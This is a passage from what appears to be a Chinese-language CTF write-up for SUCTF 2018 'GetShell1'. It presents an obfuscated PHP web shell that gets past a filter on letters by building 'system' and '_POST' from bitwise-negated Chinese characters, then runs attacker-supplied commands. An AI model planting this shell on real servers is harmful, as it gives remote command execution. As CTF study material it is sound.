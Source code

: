 ![upload successful](/images/pasted-504.png)
拿到flag

# [SUCTF 2018]GetShell1

![upload successful](/images/pasted-505.png)
发现文件上传，发现甚至连字母和换行都过滤了

`
<?=
$_=[];
$_=($_===$_);
$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];//system
$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];//_POST
$___($$____[_]);
`
